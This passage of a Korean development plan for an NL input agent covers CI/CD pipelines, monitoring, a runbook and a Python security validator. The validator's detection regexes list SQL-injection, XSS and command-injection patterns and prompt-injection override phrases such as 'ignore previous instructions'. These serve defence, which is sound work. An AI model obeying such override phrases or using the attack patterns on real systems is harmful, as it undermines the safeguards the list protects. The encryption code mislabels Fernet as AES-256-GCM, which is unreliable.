      - name: Upload Bandit results
        uses: actions/upload-artifact@v3
        with:
          name: bandit-report
          path: backend/agents/nl-input/bandit-report.json

  build:
    runs-on: ubuntu-latest
    needs: [test, security]
    if: github.event_name == 'push'

    steps:
      - uses: actions/checkout@v3

      - name: Configure AWS credentials
        uses: aws-actions/configure-aws-credentials@v2
        with:
          aws-access-key-id: ${{ secrets.AWS_ACCESS_KEY_ID }}
          aws-secret-access-key: ${{ secrets.AWS_SECRET_ACCESS_KEY }}
          aws-region: ${{ env.AWS_REGION }}

      - name: Login to Amazon ECR
        id: login-ecr
        uses: aws-actions/amazon-ecr-login@v1

      - name: Build Docker image
        env:
          ECR_REGISTRY: ${{ steps.login-ecr.outputs.registry }}
          IMAGE_TAG: ${{ github.sha }}
        run: |
          cd backend/agents/nl-input
          docker build -t $ECR_REGISTRY/$ECR_REPOSITORY:$IMAGE_TAG .
          docker tag $ECR_REGISTRY/$ECR_REPOSITORY:$IMAGE_TAG $ECR_REGISTRY/$ECR_REPOSITORY:latest

      - name: Scan Docker image
        env:
          ECR_REGISTRY: ${{ steps.login-ecr.outputs.registry }}
          IMAGE_TAG: ${{ github.sha }}
        run: |
          docker run --rm -v /var/run/docker.sock:/var/run/docker.sock \
            aquasec/trivy image --severity HIGH,CRITICAL \
            $ECR_REGISTRY/$ECR_REPOSITORY:$IMAGE_TAG

      - name: Push Docker image
        env:
          ECR_REGISTRY: ${{ steps.login-ecr.outputs.registry }}
          IMAGE_TAG: ${{ github.sha }}
        run: |
          docker push $ECR_REGISTRY/$ECR_REPOSITORY:$IMAGE_TAG
          docker push $ECR_REGISTRY/$ECR_REPOSITORY:latest

  deploy-staging:
    runs-on: ubuntu-latest
    needs: build
    if: github.ref == 'refs/heads/develop'
    environment: staging

    steps:
      - uses: actions/checkout@v3

      - name: Configure kubectl
        uses: azure/setup-kubectl@v3
        with:
          version: 'v1.27.0'

      - name: Configure AWS credentials
        uses: aws-actions/configure-aws-credentials@v2
        with:
          aws-access-key-id: ${{ secrets.AWS_ACCESS_KEY_ID }}
          aws-secret-access-key: ${{ secrets.AWS_SECRET_ACCESS_KEY }}
          aws-region: ${{ env.AWS_REGION }}

      - name: Update kubeconfig
        run: |
          aws eks update-kubeconfig --name t-developer-staging --region ${{ env.AWS_REGION }}

      - name: Deploy to staging
        env:
          IMAGE_TAG: ${{ github.sha }}
        run: |
          cd k8s/nl-input-agent
          kustomize edit set image t-developer/nl-input-agent=${{ secrets.ECR_REGISTRY }}/${{ env.ECR_REPOSITORY }}:$IMAGE_TAG
          kubectl apply -k overlays/staging

      - name: Wait for rollout
        run: |
          kubectl rollout status deployment/nl-input-agent -n t-developer-staging --timeout=300s

      - name: Run smoke tests
        run: |
          cd backend/agents/nl-input
          pip install -r requirements-test.txt
          pytest tests/smoke/ -v --staging-url=${{ secrets.STAGING_URL }}

  deploy-production:
    runs-on: ubuntu-latest
    needs: build
    if: github.ref == 'refs/heads/main'
    environment: production

    steps:
      - uses: actions/checkout@v3

      - name: Configure kubectl
        uses: azure/setup-kubectl@v3
        with:
          version: 'v1.27.0'

      - name: Configure AWS credentials
        uses: aws-actions/configure-aws-credentials@v2
        with:
          aws-access-key-id: ${{ secrets.AWS_ACCESS_KEY_ID }}
          aws-secret-access-key: ${{ secrets.AWS_SECRET_ACCESS_KEY }}
          aws-region: ${{ env.AWS_REGION }}

      - name: Update kubeconfig
        run: |
          aws eks update-kubeconfig --name t-developer-production --region ${{ env.AWS_REGION }}

      - name: Deploy to production (canary)
        env:
          IMAGE_TAG: ${{ github.sha }}
        run: |
          cd k8s/nl-input-agent
          kustomize edit set image t-developer/nl-input-agent=${{ secrets.ECR_REGISTRY }}/${{ env.ECR_REPOSITORY }}:$IMAGE_TAG
          kubectl apply -k overlays/production-canary

      - name: Monitor canary deployment
        run: |
          # 카나리 배포 모니터링 스크립트
          ./scripts/monitor-canary.sh nl-input-agent 10m

      - name: Promote to production
        if: success()
        run: |
          kubectl apply -k overlays/production
          kubectl rollout status deployment/nl-input-agent -n t-developer-production --timeout=600s

      - name: Rollback on failure
        if: failure()
        run: |
          kubectl rollout undo deployment/nl-input-agent -n t-developer-production
```

**검증 기준**:

- [ ] 자동화된 테스트 실행
- [ ] 보안 스캔 통합
- [ ] 스테이징/프로덕션 배포
- [ ] 카나리 배포 전략

#### SubTask 4.6.3: 모니터링 및 로깅 설정

**담당자**: SRE 엔지니어  
**예상 소요시간**: 10시간

**작업 내용**:

```python
# backend/agents/nl-input/src/monitoring/metrics.py
from prometheus_client import Counter, Histogram, Gauge, Info
from functools import wraps
import time

# 메트릭 정의
nl_requests_total = Counter(
    'nl_input_requests_total',
    'Total number of NL input requests',
    ['status', 'language', 'user_type']
)

nl_processing_time = Histogram(
    'nl_input_processing_seconds',
    'Time spent processing NL input',
    ['operation', 'model'],
    buckets=[0.1, 0.5, 1.0, 2.0, 5.0, 10.0, 30.0]
)

nl_clarification_questions = Counter(
    'nl_clarification_questions_total',
    'Total number of clarification questions generated',
    ['category', 'priority']
)

nl_token_usage = Counter(
    'nl_token_usage_total',
    'Total tokens used by NL agent',
    ['model', 'operation']
)

nl_cache_hits = Counter(
    'nl_cache_hits_total',
    'Cache hit rate for NL processing',
    ['cache_type']
)

nl_active_sessions = Gauge(
    'nl_active_sessions',
    'Number of active NL processing sessions'
)

nl_agent_info = Info(
    'nl_agent_info',
    'NL Agent version and configuration info'
)

# 메트릭 데코레이터
def track_processing_time(operation: str, model: str = "default"):
    def decorator(func):
        @wraps(func)
        async def wrapper(*args, **kwargs):
            start_time = time.time()
            try:
                result = await func(*args, **kwargs)
                nl_processing_time.labels(
                    operation=operation,
                    model=model
                ).observe(time.time() - start_time)
                return result
            except Exception as e:
                nl_processing_time.labels(
                    operation=operation,
                    model=model
                ).observe(time.time() - start_time)
                raise e
        return wrapper
    return decorator

def track_request(status_func=None):
    def decorator(func):
        @wraps(func)
        async def wrapper(*args, **kwargs):
            try:
                result = await func(*args, **kwargs)
                status = status_func(result) if status_func else "success"
                nl_requests_total.labels(
                    status=status,
                    language=kwargs.get('language', 'en'),
                    user_type=kwargs.get('user_type', 'standard')
                ).inc()
                return result
            except Exception as e:
                nl_requests_total.labels(
                    status="error",
                    language=kwargs.get('language', 'en'),
                    user_type=kwargs.get('user_type', 'standard')
                ).inc()
                raise e
        return wrapper
    return decorator

# 사용 예시
class NLMetricsCollector:
    def __init__(self):
        # 에이전트 정보 설정
        nl_agent_info.info({
            'version': '1.0.0',
            'model': 'anthropic.claude-3-sonnet-v2:0',
            'framework': 'agno'
        })

    @track_processing_time("analyze", "claude-3-sonnet")
    @track_request()
    async def analyze_with_metrics(self, description: str, **kwargs):
        # 실제 분석 로직
        result = await analyze_description(description, **kwargs)

        # 토큰 사용량 기록
        nl_token_usage.labels(
            model="claude-3-sonnet",
            operation="analyze"
        ).inc(result.token_count)

        # 명확화 질문 수 기록
        if result.clarification_questions:
            for question in result.clarification_questions:
                nl_clarification_questions.labels(
                    category=question.category,
                    priority=question.priority
                ).inc()

        return result
```

```yaml
# k8s/monitoring/nl-agent-dashboard.yaml
apiVersion: v1
kind: ConfigMap
metadata:
  name: nl-agent-dashboard
  namespace: monitoring
data:
  dashboard.json: |
    {
      "dashboard": {
        "title": "NL Input Agent Monitoring",
        "panels": [
          {
            "title": "Request Rate",
            "targets": [
              {
                "expr": "rate(nl_input_requests_total[5m])",
                "legendFormat": "{{status}}"
              }
            ],
            "gridPos": { "x": 0, "y": 0, "w": 12, "h": 8 }
          },
          {
            "title": "Processing Time",
            "targets": [
              {
                "expr": "histogram_quantile(0.95, rate(nl_input_processing_seconds_bucket[5m]))",
                "legendFormat": "p95"
              },
              {
                "expr": "histogram_quantile(0.99, rate(nl_input_processing_seconds_bucket[5m]))",
                "legendFormat": "p99"
              }
            ],
            "gridPos": { "x": 12, "y": 0, "w": 12, "h": 8 }
          },
          {
            "title": "Token Usage",
            "targets": [
              {
                "expr": "rate(nl_token_usage_total[1h])",
                "legendFormat": "{{model}}"
              }
            ],
            "gridPos": { "x": 0, "y": 8, "w": 12, "h": 8 }
          },
          {
            "title": "Cache Hit Rate",
            "targets": [
              {
                "expr": "rate(nl_cache_hits_total[5m]) / rate(nl_input_requests_total[5m])",
                "legendFormat": "Hit Rate"
              }
            ],
            "gridPos": { "x": 12, "y": 8, "w": 12, "h": 8 }
          },
          {
            "title": "Active Sessions",
            "targets": [
              {
                "expr": "nl_active_sessions",
                "legendFormat": "Sessions"
              }
            ],
            "gridPos": { "x": 0, "y": 16, "w": 12, "h": 8 }
          },
          {
            "title": "Clarification Questions",
            "targets": [
              {
                "expr": "sum by (category) (rate(nl_clarification_questions_total[5m]))",
                "legendFormat": "{{category}}"
              }
            ],
            "gridPos": { "x": 12, "y": 16, "w": 12, "h": 8 }
          }
        ]
      }
    }
```

```python
# backend/agents/nl-input/src/monitoring/logging.py
import logging
import json
from pythonjsonlogger import jsonlogger
from opentelemetry import trace
from opentelemetry.trace import Status, StatusCode

# 구조화된 로깅 설정
def setup_logging():
    # JSON 포맷터 설정
    logHandler = logging.StreamHandler()
    formatter = jsonlogger.JsonFormatter(
        fmt='%(timestamp)s %(level)s %(name)s %(message)s',
        rename_fields={'timestamp': '@timestamp'}
    )
    logHandler.setFormatter(formatter)

    # 루트 로거 설정
    logger = logging.getLogger()
    logger.addHandler(logHandler)
    logger.setLevel(logging.INFO)

    return logger

# 트레이싱 설정
tracer = trace.get_tracer(__name__)

class NLAgentLogger:
    def __init__(self):
        self.logger = setup_logging()

    def log_analysis_request(self, request_id: str, description: str, metadata: dict):
        """분석 요청 로깅"""
        with tracer.start_as_current_span("nl_analysis") as span:
            span.set_attribute("request.id", request_id)
            span.set_attribute("description.length", len(description))
            span.set_attribute("user.id", metadata.get("user_id"))

            self.logger.info(
                "NL analysis request received",
                extra={
                    "request_id": request_id,
                    "description_preview": description[:100],
                    "metadata": metadata,
                    "span_id": span.get_span_context().span_id,
                    "trace_id": span.get_span_context().trace_id
                }
            )

    def log_clarification_generated(
        self,
        request_id: str,
        questions: list,
        ambiguity_score: float
    ):
        """명확화 질문 생성 로깅"""
        self.logger.info(
            "Clarification questions generated",
            extra={
                "request_id": request_id,
                "question_count": len(questions),
                "ambiguity_score": ambiguity_score,
                "question_categories": [q.get("category") for q in questions]
            }
        )

    def log_processing_error(
        self,
        request_id: str,
        error: Exception,
        context: dict
    ):
        """처리 오류 로깅"""
        span = trace.get_current_span()
        if span:
            span.set_status(Status(StatusCode.ERROR, str(error)))
            span.record_exception(error)

        self.logger.error(
            "Processing error occurred",
            extra={
                "request_id": request_id,
                "error_type": type(error).__name__,
                "error_message": str(error),
                "context": context
            },
            exc_info=True
        )

    def log_performance_metrics(
        self,
        request_id: str,
        processing_time: float,
        token_count: int,
        cache_hit: bool
    ):
        """성능 메트릭 로깅"""
        self.logger.info(
            "Performance metrics",
            extra={
                "request_id": request_id,
                "processing_time_ms": processing_time * 1000,
                "token_count": token_count,
                "cache_hit": cache_hit,
                "tokens_per_second": token_count / processing_time if processing_time > 0 else 0
            }
        )
```

**검증 기준**:

- [ ] Prometheus 메트릭 수집
- [ ] 구조화된 JSON 로깅
- [ ] 분산 트레이싱 구현
- [ ] Grafana 대시보드 구성

#### SubTask 4.6.4: 장애 대응 및 복구 절차

**담당자**: SRE 엔지니어  
**예상 소요시간**: 8시간

**작업 내용**:

````yaml
# runbooks/nl-input-agent-runbook.yaml
apiVersion: v1
kind: ConfigMap
metadata:
  name: nl-input-agent-runbook
  namespace: t-developer
data:
  runbook.md: |
    # NL Input Agent Runbook

    ## Overview
    NL Input Agent는 자연어 프로젝트 설명을 분석하고 구조화된 요구사항으로 변환하는 핵심 에이전트입니다.

    ## Architecture
    - **Language**: Python 3.11
    - **Framework**: FastAPI + Agno
    - **Model**: Claude 3 Sonnet (Bedrock)
    - **Storage**: DynamoDB (context), Redis (cache)
    - **Deployment**: Kubernetes (EKS)

    ## Common Issues and Solutions

    ### 1. High Response Time
    **증상**: 
    - P95 응답 시간이 5초 초과
    - 사용자 타임아웃 증가

    **진단**:
    ```bash
    # 메트릭 확인
    kubectl top pods -n t-developer -l app=nl-input-agent

    # 로그 확인
    kubectl logs -n t-developer -l app=nl-input-agent --tail=100 | grep "processing_time"

    # 트레이스 확인
    kubectl port-forward -n monitoring svc/jaeger-query 16686:16686
    # http://localhost:16686에서 느린 트레이스 분석
    ```

    **해결방법**:
    1. 캐시 히트율 확인
    ```bash
    kubectl exec -n t-developer deploy/nl-input-agent -- redis-cli INFO stats
    ```

    2. 모델 응답 시간 확인
    ```python
    # Bedrock 지연 시간 확인
    aws cloudwatch get-metric-statistics \
      --namespace AWS/Bedrock \
      --metric-name ModelLatency \
      --dimensions Name=ModelId,Value=anthropic.claude-3-sonnet-v2:0 \
      --statistics Average \
      --start-time 2024-01-01T00:00:00Z \
      --end-time 2024-01-01T01:00:00Z \
      --period 300
    ```

    3. 스케일 아웃
    ```bash
    kubectl scale deployment nl-input-agent -n t-developer --replicas=5
    ```

    ### 2. Memory Leak
    **증상**:
    - 메모리 사용량 지속적 증가
    - OOMKilled 이벤트

    **진단**:
    ```bash
    # 메모리 사용 패턴 확인
    kubectl top pods -n t-developer -l app=nl-input-agent --use-protocol-buffers

    # 힙 덤프 생성
    kubectl exec -n t-developer deploy/nl-input-agent -- \
      python -m pyheapdump dump /tmp/heap.dump

    # 덤프 분석
    kubectl cp t-developer/nl-input-agent-xxxxx:/tmp/heap.dump ./heap.dump
    python -m pyheapdump analyze heap.dump
    ```

    **해결방법**:
    1. 즉시 재시작
    ```bash
    kubectl rollout restart deployment/nl-input-agent -n t-developer
    ```

    2. 메모리 제한 조정
    ```yaml
    resources:
      limits:
        memory: "3Gi"  # 2Gi에서 증가
    ```

    3. 코드 수정 (장기)
    - 대용량 객체 캐싱 제한
    - 세션 타임아웃 단축

    ### 3. Model API Errors
    **증상**:
    - Bedrock API 호출 실패
    - 429 (Rate Limit) 에러

    **진단**:
    ```bash
    # 에러 로그 확인
    kubectl logs -n t-developer -l app=nl-input-agent | grep -E "bedrock|rate.limit"

    # API 할당량 확인
    aws service-quotas get-service-quota \
      --service-code bedrock \
      --quota-code L-12345678
    ```

    **해결방법**:
    1. 재시도 로직 확인
    ```python
    # 지수 백오프 설정 확인
    RETRY_CONFIG = {
        "max_attempts": 5,
        "base_delay": 1.0,
        "max_delay": 60.0,
        "exponential_base": 2
    }
    ```

    2. 요청 제한 구현
    ```python
    from asyncio import Semaphore

    # 동시 요청 제한
    bedrock_semaphore = Semaphore(10)
    ```

    3. 할당량 증가 요청
    ```bash
    aws support create-case \
      --subject "Bedrock API Limit Increase Request" \
      --service-code "bedrock" \
      --severity-code "low" \
      --category-code "service-limit-increase"
    ```

    ## Monitoring Alerts

    ### Critical Alerts
    1. **NL Agent Down**
       - 조건: 가용 Pod 0개
       - 대응: 즉시 재배포

    2. **High Error Rate**
       - 조건: 5xx 에러율 > 5%
       - 대응: 로그 분석 후 핫픽스

    3. **Token Budget Exceeded**
       - 조건: 일일 토큰 한도 90% 초과
       - 대응: 요청 제한 활성화

    ### Warning Alerts
    1. **Slow Processing**
       - 조건: P95 > 3초
       - 대응: 성능 분석 및 최적화

    2. **Low Cache Hit**
       - 조건: 캐시 히트율 < 60%
       - 대응: 캐시 전략 검토

    ## Disaster Recovery

    ### Backup Strategy
    - DynamoDB: Point-in-time recovery 활성화
    - Redis: 매 시간 스냅샷
    - 설정: S3에 일일 백업

    ### Recovery Procedures
    1. **전체 장애 복구**
    ```bash
    # 1. 최신 백업 확인
    aws s3 ls s3://t-developer-backups/nl-agent/

    # 2. 새 환경에 배포
    kubectl apply -k k8s/nl-input-agent/overlays/disaster-recovery

    # 3. 데이터 복원
    python scripts/restore-dynamodb.py --table nl-contexts --backup latest

    # 4. 헬스체크
    curl -X POST https://dr.api.t-developer.com/nl-input/health
    ```

    2. **부분 장애 복구**
    ```bash
    # 장애 Pod만 재시작
    kubectl delete pod -n t-developer -l app=nl-input-agent,status=unhealthy
    ```

    ## Performance Tuning

    ### Optimization Checklist
    - [ ] 캐시 TTL 최적화 (현재: 1시간)
    - [ ] 배치 처리 크기 조정 (현재: 10)
    - [ ] 연결 풀 크기 확인 (현재: 100)
    - [ ] 가비지 컬렉션 튜닝

    ### Load Testing
    ```bash
    # Locust를 사용한 부하 테스트
    locust -f tests/load/nl_agent_load_test.py \
      --host https://api.t-developer.com \
      --users 100 \
      --spawn-rate 10 \
      --run-time 10m
    ```

    ## Contact
    - **Primary**: NL Agent Team (nl-team@company.com)
    - **Secondary**: Platform Team (platform@company.com)
    - **Escalation**: SRE Lead (sre-lead@company.com)
````

```python
# scripts/incident-response/nl-agent-diagnostics.py
#!/usr/bin/env python3
"""
NL Input Agent 진단 스크립트
"""
import asyncio
import argparse
from datetime import datetime, timedelta
import json

class NLAgentDiagnostics:
    def __init__(self, namespace="t-developer"):
        self.namespace = namespace
        self.agent_name = "nl-input-agent"

    async def run_diagnostics(self):
        """전체 진단 실행"""
        print(f"🔍 NL Input Agent Diagnostics - {datetime.now()}")
        print("=" * 60)

        # 1. 파드 상태 확인
        await self.check_pod_status()

        # 2. 메트릭 확인
        await self.check_metrics()

        # 3. 최근 에러 확인
        await self.check_recent_errors()

        # 4. 리소스 사용량 확인
        await self.check_resource_usage()

        # 5. 외부 의존성 확인
        await self.check_dependencies()

        print("\n✅ Diagnostics completed")

    async def check_pod_status(self):
        """파드 상태 확인"""
        print("\n📊 Pod Status:")
        cmd = f"kubectl get pods -n {self.namespace} -l app={self.agent_name} -o json"
        result = await self.run_command(cmd)

        pods = json.loads(result)["items"]
        for pod in pods:
            name = pod["metadata"]["name"]
            phase = pod["status"]["phase"]
            ready = all(c["ready"] for c in pod["status"].get("containerStatuses", []))
            print(f"  - {name}: {phase} (Ready: {ready})")

    async def check_metrics(self):
        """주요 메트릭 확인"""
        print("\n📈 Key Metrics (last 5m):")

        metrics = {
            "Request Rate": "rate(nl_input_requests_total[5m])",
            "Error Rate": "rate(nl_input_requests_total{status='error'}[5m])",
            "P95 Latency": "histogram_quantile(0.95, rate(nl_input_processing_seconds_bucket[5m]))",
            "Active Sessions": "nl_active_sessions"
        }

        for name, query in metrics.items():
            # 실제로는 Prometheus API 호출
            print(f"  - {name}: {query}")

    async def check_recent_errors(self):
        """최근 에러 로그 확인"""
        print("\n❌ Recent Errors (last 10m):")
        cmd = f"kubectl logs -n {self.namespace} -l app={self.agent_name} --since=10m | grep ERROR | tail -5"
        errors = await self.run_command(cmd)

        if errors:
            for line in errors.split('\n'):
                if line:
                    print(f"  - {line[:100]}...")
        else:
            print("  - No errors found")

    async def run_command(self, cmd):
        """명령 실행"""
        proc = await asyncio.create_subprocess_shell(
            cmd,
            stdout=asyncio.subprocess.PIPE,
            stderr=asyncio.subprocess.PIPE
        )
        stdout, stderr = await proc.communicate()
        return stdout.decode()

if __name__ == "__main__":
    parser = argparse.ArgumentParser(description="NL Agent Diagnostics")
    parser.add_argument("--namespace", default="t-developer", help="Kubernetes namespace")
    args = parser.parse_args()

    diagnostics = NLAgentDiagnostics(args.namespace)
    asyncio.run(diagnostics.run_diagnostics())
```

**검증 기준**:

- [ ] 상세한 런북 작성
- [ ] 자동 진단 스크립트
- [ ] 장애 복구 절차
- [ ] 성능 튜닝 가이드

---

# Phase 4: 9개 핵심 에이전트 구현 - Part 4 (Tasks 4.7-4.8)

## 1. NL Input Agent (자연어 입력 에이전트) - 계속

### Task 4.7: NL Agent 보안 및 컴플라이언스

#### SubTask 4.7.1: 입력 검증 및 살균 시스템

**담당자**: 보안 엔지니어  
**예상 소요시간**: 12시간

**작업 내용**:

```python
# backend/src/agents/implementations/nl_security_validator.py
from typing import Dict, List, Optional, Any
import re
import html
import hashlib
from dataclasses import dataclass
from enum import Enum

class ThreatLevel(Enum):
    NONE = "none"
    LOW = "low"
    MEDIUM = "medium"
    HIGH = "high"
    CRITICAL = "critical"

@dataclass
class ValidationResult:
    is_valid: bool
    threat_level: ThreatLevel
    issues: List[str]
    sanitized_input: str
    metadata: Dict[str, Any]

class NLSecurityValidator:
    """NL 입력에 대한 보안 검증 및 살균"""

    def __init__(self):
        self.injection_patterns = self._load_injection_patterns()
        self.sensitive_data_patterns = self._load_sensitive_patterns()
        self.rate_limiter = RateLimiter()
        self.threat_detector = ThreatDetector()

    def _load_injection_patterns(self) -> Dict[str, List[re.Pattern]]:
        """인젝션 공격 패턴 로드"""
        return {
            'sql_injection': [
                re.compile(r"(\b(SELECT|INSERT|UPDATE|DELETE|DROP|UNION|CREATE)\b)", re.I),
                re.compile(r"(--|#|/\*|\*/)", re.I),
                re.compile(r"(\bOR\b\s*\d+\s*=\s*\d+)", re.I),
                re.compile(r"(\bAND\b\s*\d+\s*=\s*\d+)", re.I)
            ],
            'prompt_injection': [
                re.compile(r"(ignore\s+previous\s+instructions)", re.I),
                re.compile(r"(forget\s+everything)", re.I),
                re.compile(r"(system\s*:\s*|assistant\s*:)", re.I),
                re.compile(r"(\[\[.*?\]\]|\{\{.*?\}\})", re.I),
                re.compile(r"(bypass|override|disable)\s+(security|safety|filter)", re.I)
            ],
            'xss_patterns': [
                re.compile(r"<script[^>]*>.*?</script>", re.I | re.S),
                re.compile(r"javascript:", re.I),
                re.compile(r"on\w+\s*=", re.I),
                re.compile(r"<iframe[^>]*>", re.I)
            ],
            'command_injection': [
                re.compile(r"[;&|`$]"),
                re.compile(r"\$\([^)]+\)"),
                re.compile(r"`[^`]+`")
            ]
        }

    def _load_sensitive_patterns(self) -> Dict[str, re.Pattern]:
        """민감 데이터 패턴 로드"""
        return {
            'credit_card': re.compile(r'\b\d{4}[\s-]?\d{4}[\s-]?\d{4}[\s-]?\d{4}\b'),
            'ssn': re.compile(r'\b\d{3}-\d{2}-\d{4}\b'),
            'email': re.compile(r'\b[A-Za-z0-9._%+-]+@[A-Za-z0-9.-]+\.[A-Z|a-z]{2,}\b'),
            'phone': re.compile(r'\b\d{3}[-.]?\d{3}[-.]?\d{4}\b'),
            'api_key': re.compile(r'\b(api[_-]?key|apikey)\s*[:=]\s*["\']?([A-Za-z0-9-_]+)["\']?\b', re.I),
            'password': re.compile(r'\b(password|passwd|pwd)\s*[:=]\s*["\']?([^\s"\']+)["\']?\b', re.I),
            'aws_key': re.compile(r'AKIA[0-9A-Z]{16}'),
            'private_key': re.compile(r'-----BEGIN (RSA |EC )?PRIVATE KEY-----')
        }

    async def validate_input(
        self,
        input_text: str,
        user_id: str,
        context: Optional[Dict[str, Any]] = None
    ) -> ValidationResult:
        """입력 검증 수행"""

        issues = []
        threat_level = ThreatLevel.NONE

        # 1. 길이 검증
        if len(input_text) > 10000:
            issues.append("Input exceeds maximum length (10000 characters)")
            threat_level = ThreatLevel.MEDIUM

        if len(input_text) < 10:
            issues.append("Input too short (minimum 10 characters)")
            return ValidationResult(
                is_valid=False,
                threat_level=ThreatLevel.LOW,
                issues=issues,
                sanitized_input="",
                metadata={}
            )

        # 2. 인젝션 공격 검사
        injection_results = await self._check_injection_attacks(input_text)
        if injection_results['detected']:
            issues.extend(injection_results['issues'])
            threat_level = max(threat_level, injection_results['threat_level'])

        # 3. 민감 데이터 검사
        sensitive_results = await self._check_sensitive_data(input_text)
        if sensitive_results['detected']:
            issues.extend(sensitive_results['issues'])
            threat_level = max(threat_level, ThreatLevel.HIGH)

        # 4. Rate limiting 검사
        if not await self.rate_limiter.check_rate_limit(user_id):
            issues.append("Rate limit exceeded")
            threat_level = ThreatLevel.HIGH

        # 5. 입력 살균
        sanitized_input = await self._sanitize_input(input_text)

        # 6. 악의적 패턴 검사
        malicious_score = await self.threat_detector.analyze_intent(sanitized_input)
        if malicious_score > 0.7:
            issues.append("Potentially malicious intent detected")
            threat_level = max(threat_level, ThreatLevel.HIGH)

        # 7. 로깅
        await self._log_validation_result(
            user_id,
            input_text,
            sanitized_input,
            issues,
            threat_level
        )

        return ValidationResult(
            is_valid=len(issues) == 0 or threat_level.value in ["none", "low"],
            threat_level=threat_level,
            issues=issues,
            sanitized_input=sanitized_input,
            metadata={
                "original_length": len(input_text),
                "sanitized_length": len(sanitized_input),
                "malicious_score": malicious_score
            }
        )

    async def _check_injection_attacks(
        self,
        input_text: str
    ) -> Dict[str, Any]:
        """인젝션 공격 패턴 검사"""

        detected = False
        issues = []
        threat_level = ThreatLevel.NONE

        for attack_type, patterns in self.injection_patterns.items():
            for pattern in patterns:
                if pattern.search(input_text):
                    detected = True
                    issues.append(f"Potential {attack_type} detected")

                    if attack_type in ['sql_injection', 'command_injection']:
                        threat_level = ThreatLevel.CRITICAL
                    elif attack_type == 'prompt_injection':
                        threat_level = max(threat_level, ThreatLevel.HIGH)
                    else:
                        threat_level = max(threat_level, ThreatLevel.MEDIUM)

                    break

        return {
            'detected': detected,
            'issues': issues,
            'threat_level': threat_level
        }

    async def _check_sensitive_data(
        self,
        input_text: str
    ) -> Dict[str, Any]:
        """민감 데이터 검사"""

        detected = False
        issues = []
        found_types = []

        for data_type, pattern in self.sensitive_data_patterns.items():
            matches = pattern.findall(input_text)
            if matches:
                detected = True
                found_types.append(data_type)
                issues.append(f"Sensitive data detected: {data_type}")

        return {
            'detected': detected,
            'issues': issues,
            'found_types': found_types
        }

    async def _sanitize_input(self, input_text: str) -> str:
        """입력 살균"""

        # 1. HTML 엔티티 이스케이프
        sanitized = html.escape(input_text)

        # 2. 특수 문자 처리
        # 안전한 문자만 허용
        safe_chars = re.compile(r'[^a-zA-Z0-9\s\-_.,!?;:\'"\(\)\[\]{}/\\@#$%^&*+=~`|<>가-힣ㄱ-ㅎㅏ-ㅣ]')
        sanitized = safe_chars.sub('', sanitized)

        # 3. 연속된 공백 제거
        sanitized = re.sub(r'\s+', ' ', sanitized)

        # 4. 앞뒤 공백 제거
        sanitized = sanitized.strip()

        # 5. 최대 길이 제한
        if len(sanitized) > 5000:
            sanitized = sanitized[:5000]

        return sanitized

    async def _log_validation_result(
        self,
        user_id: str,
        original_input: str,
        sanitized_input: str,
        issues: List[str],
        threat_level: ThreatLevel
    ):
        """검증 결과 로깅"""

        # 민감 데이터 마스킹
        masked_input = self._mask_sensitive_data(original_input)

        log_entry = {
            "timestamp": datetime.utcnow().isoformat(),
            "user_id": hashlib.sha256(user_id.encode()).hexdigest(),
            "input_hash": hashlib.sha256(original_input.encode()).hexdigest(),
            "input_preview": masked_input[:100],
            "threat_level": threat_level.value,
            "issues": issues,
            "action": "validated"
        }

        # 보안 이벤트 로깅
        if threat_level.value in ["high", "critical"]:
            await self._send_security_alert(log_entry)

        # 감사 로그 저장
        await self._save_audit_log(log_entry)
```

**검증 기준**:

- [ ] 다양한 인젝션 공격 탐지
- [ ] 민감 데이터 자동 마스킹
- [ ] 위협 수준 평가
- [ ] 감사 로그 생성

#### SubTask 4.7.2: 데이터 암호화 및 프라이버시

**담당자**: 보안 아키텍트  
**예상 소요시간**: 10시간

**작업 내용**:

```python
# backend/src/agents/implementations/nl_privacy_manager.py
from cryptography.fernet import Fernet
from cryptography.hazmat.primitives import hashes
from cryptography.hazmat.primitives.kdf.pbkdf2 import PBKDF2HMAC
import base64
import os
from typing import Dict, Optional, Any

class NLPrivacyManager:
    """NL 데이터 암호화 및 프라이버시 관리"""

    def __init__(self):
        self.encryption_key = self._derive_encryption_key()
        self.cipher_suite = Fernet(self.encryption_key)
        self.pii_detector = PIIDetector()
        self.anonymizer = DataAnonymizer()

    def _derive_encryption_key(self) -> bytes:
        """마스터 키에서 암호화 키 유도"""
        master_key = os.environ.get("MASTER_ENCRYPTION_KEY", "").encode()
        salt = os.environ.get("ENCRYPTION_SALT", "").encode()

        kdf = PBKDF2HMAC(
            algorithm=hashes.SHA256(),
            length=32,
            salt=salt,
            iterations=100000,
        )
        key = base64.urlsafe_b64encode(kdf.derive(master_key))
        return key

    async def encrypt_user_data(
        self,
        data: Dict[str, Any],
        encryption_level: str = "standard"
    ) -> Dict[str, Any]:
        """사용자 데이터 암호화"""

        encrypted_data = {}

        for key, value in data.items():
            if self._should_encrypt_field(key, encryption_level):
                if isinstance(value, str):
                    encrypted_value = self.cipher_suite.encrypt(value.encode())
                    encrypted_data[key] = {
                        "encrypted": True,
                        "value": base64.b64encode(encrypted_value).decode(),
                        "algorithm": "AES-256-GCM"
                    }
                else:
                    # 복잡한 데이터 타입은 JSON으로 직렬화 후 암호화
                    import json
                    serialized = json.dumps(value)
                    encrypted_value = self.cipher_suite.encrypt(serialized.encode())
                    encrypted_data[key] = {
                        "encrypted": True,
                        "value": base64.b64encode(encrypted_value).decode(),
                        "type": type(value).__name__,
                        "algorithm": "AES-256-GCM"
                    }
            else:
                encrypted_data[key] = value

        return encrypted_data

    async def decrypt_user_data(
        self,
        encrypted_data: Dict[str, Any]
    ) -> Dict[str, Any]:
        """사용자 데이터 복호화"""

        decrypted_data = {}

        for key, value in encrypted_data.items():
            if isinstance(value, dict) and value.get("encrypted"):
                try:
                    encrypted_bytes = base64.b64decode(value["value"])
                    decrypted_bytes = self.cipher_suite.decrypt(encrypted_bytes)

                    if value.get("type"):
                        # 복잡한 데이터 타입 복원
                        import json
                        decrypted_data[key] = json.loads(decrypted_bytes.decode())
                    else:
                        decrypted_data[key] = decrypted_bytes.decode()
                except Exception as e:
                    # 복호화 실패 시 로깅하고 None 반환
                    logger.error(f"Failed to decrypt field {key}: {str(e)}")
                    decrypted_data[key] = None
            else:
                decrypted_data[key] = value

        return decrypted_data

    async def anonymize_for_analytics(
        self,
        data: Dict[str, Any],
        anonymization_level: str = "standard"
    ) -> Dict[str, Any]:
        """분석용 데이터 익명화"""

        # PII 감지
        pii_fields = await self.pii_detector.detect_pii(data)

        # 익명화 수행
        anonymized_data = {}

        for key, value in data.items():
